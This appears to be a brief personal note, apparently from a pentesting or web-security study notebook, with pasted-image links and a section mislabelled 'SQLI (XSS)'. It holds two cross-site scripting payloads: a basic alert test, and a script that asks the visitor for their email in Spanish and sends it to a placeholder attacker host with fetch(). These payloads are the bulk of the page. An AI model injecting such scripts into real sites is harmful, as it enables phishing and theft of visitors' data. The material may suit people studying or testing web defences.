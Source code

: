 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

```python
<script>alert("XSS")</script>
```

```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://IP/?email=" + email);
}
</script>
```
